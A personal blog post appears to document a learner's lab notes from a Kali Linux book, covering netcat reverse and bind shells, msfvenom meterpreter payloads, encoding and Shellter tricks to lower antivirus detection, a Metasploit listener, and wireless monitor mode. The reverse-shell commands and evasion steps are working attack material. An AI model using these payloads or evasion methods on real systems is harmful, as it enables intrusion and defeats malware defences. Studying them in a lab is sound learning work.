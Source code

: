```yaml
---
title: "Part 5 Understanding Reverse and Binding Shell"
date: 2024-05-22T09:09:02Z
draft: false
categories: ["Walkthrough"]
tags: ["Networking", "Shells"]
series: ["Ultimate-Kali-Linux-Book"]
series_order: 5
---
```


Hey it's me again  , I know you've been missing me and I have to same to you as well. Time has changed in my life for the better, I've met the competitive hacking team at another close by University and would love to learn from them as they're seniors in the field of CTF. I want to be by their side and learn from them to grow as a person and a professional penetration tester.

I've also found a job as an assistant at a college which has amazing architecture, truly wonderful to look at. I will use the funds to help me with travels for Uni, lunch and future projects that you might see on this blog so stay tuned. (^・ω・^ )

Anyways, enough of a life update lets talk Networking and Shells! I will be exploring **Netcat** to create connections between my Kali machine and a victim Windows machine. Will also be going over **Anti-malware evasion techniques** to reduce Virustotal scores when scanning payloads created using scripts. And finally test out my wireless adapter that I got for cheap for packet injection and Monitor mode compatibility with **Aireplay-ng**. 

This ones a short one guys so I'll give it my best, I know I'm only using scripts and pre-made tools yet and not reversing engineering yet but put a bit of trust in me. I have a small flame inside of me, waiting for small chips of wood to be thrown inside to grow bigger into a roaring flame to not only light up my path in dark times but also for others I care about around me.

## 1. Fundamentals of Bind and Reverse Shells
A **reverse shell** is a one way connection from the victims computer to an attackers where they would be able to perform remote code execution or monitor for the victims behaviour, keystrokes, screen sharing and more.

A **binding shell** uses inbound firewall rules meaning that the connection originates from the victim -> attacker.

### 1.2 Creating a Reverse & Binding Shell with Netcat
There is a Windows version of Netcat on Kali at this directory `/usr/share/windows-binaries` which will be uploaded to the victims computer which when executed will open the shell. 

1. Get the file onto the victims machine, for this example we will be connected on the same network and I will be using a Python server to transfer, `cd` into windows-binaries and execute `python3 -m http.server 8080`
2. On victims machine in a browser: `<kaliIP>:8080`
![Python-server-nc.exe](<Python-server-nc.exe.png>)
3. Click on `nc.exe` as the victim and close Python web server 
4. Execute the following in a terminal on kali `nc -nlvp 1234` on bob's `nc -nv <kaliIP> 1234 -e cmd.exe`
5. To create a bind shell on kali `nc -nlvp 1234 -e /bin/bash` and on bob's `nc -nv <kaliIP> 1234`, this will allow bob to send commands to kali

ik this above isn't what I've talked about as I've lost the gif for Netcat but here is a payload created by MSF using vnc.exe ^^

## 2. Anti-malware Evasion Techniques
Most Anti malware work in 3 main categories:
- **Signature-base detection:** Anti-malware software will use a database of known malicious code and compare it to scans
- **Behavioural-based detection:** This is where the actions taken by malware is monitored by being placed in a Virtual environment for changes in the system 
- **Heuristic-based:** This is where the anti-malware software uses rules and algorithms to determine if malware has been detected

### 2.1 Encoding Payloads with MSFvenom
1. Using the reverse shell from the Netcat shell executable I will be using MSFvenom which allows for custom payload creation via scripts.
```bash
msfvenom -h                # Help menu
msfvenom --list payloads   # Available Payload list
# Create first payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload.exe
```
![msfvenom-payload-1](<msfvenom-payload-1.png>)
2. Putting the `payload.exe` file into https://www.virustotal.com will give out these detection ratings:
![msfvenom-virtustotal-payload-1](<msfvenom-virtustotal-payload-1.png>)
{{< alert icon="triangle-exclamation" cardColor="#fcf0e8" textColor="#eb974c" iconColor="#eb974c" >}}
Virustotal and other mainstream web scanners will distribute the hash of the payload:
{{< /alert >}}
A way to combat my malware being known is by using a no distribution scanner.
3. Using the highest rated encoder and iterating the encoding 9 times:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9
```
![msfvenom-virtustotal-payload-2](<msfvenom-virtustotal-payload-2.png>)
Doesn't even lower it by much 😭😭

4. Giving it a executable to encode with the template to mask out anti-malware signature detection
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9 -x /etc/share/windows-binaries/whoami.exe
```

### 2.2 Using Shellter to reduce detection
- Go through the [Wine installation guide](https://wiki.winehq.org/Download) with `wine32` and install Shellter with `sudo apt install shellter`

![Shellter-Encoding-Demo](/images/Shellter-Encoding-Demo.gif)

![Shellter-virustotal-payload-1](<Shellter-virustotal-payload-1.png>)

### 2.3 Using MSF to Send a Reverse Shell Attack
1. Will need to transfer file same method as transferring ncat in part 1.2
2. Will be using metasploitable to listen to the payload 
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 (multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 (multi/handler) > set LHOST <attacker IP>
msf6 (multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 (multi/handler) > exploit
```

![Reverse-shell-demo](/images/Reverse-shell-demo.gif)
(Right-click > Open Image in New Tab)
## 3. Wireless Adaptor Setup
For the final part of this section I will be testing out my wireless adapter which was bought off Aliexpress a long time ago and just resurfaced for this which I'm happy about. 

![Wireless adapter](Wireless-adapter.jpg)
(Right-click > Open Image in New Tab)

### 3.1 Different types of Adaptor Modes
There are several modes available for a network adaptor to switch to which all have their separate purposes:
- **Managed mode:** The default type which will allow connections to other AP
- **Monitor mode:** This mode will allow for wireless network scanning and packet injection 
- **Repeater mode:** Echo's a WiFi connection like an extender
- **Master mode:** Allow Linux-based system to operate as APs' 

### 3.2 Changing between Managed and Monitor Mode
There are two main methods to enable monitor and switching back to managed mode: 
- **Manually:** 
```
$ ifconfig wlan0 down
$ iwconfig mode monitor wlan0 
$ ifconfig wlan0 up
```
- **Using airmon-ng:** 
```
$ airmon-ng check kill 
$ airmon-ng start wlan0 
$ airmon-ng stop wlan0
```

### 3.3 Testing for Packet Injection Compatibility
Once in monitor mode I can see if the adaptor has packet injection capabilities with `aireplay-ng -9 wlan0`

![packet-injection-testing](<packet-injection-testing.png>)

Well this pretty much covers everything for the fifth part of ‘The Ultimate Kali Linux Book’ by Glen D. Singh. This was a short one but I learned a bit on the different shell types, using encoders to mask out known exploits by anti-malware software and testing out my wireless adapter for later testing. Glad you had a good read for this one, hope you're doing OK wherever you are. Bye. {{< responsive-img src="Cat-with-heart-excited.gif" alt="alt text" width="30px" height="30px" >}}

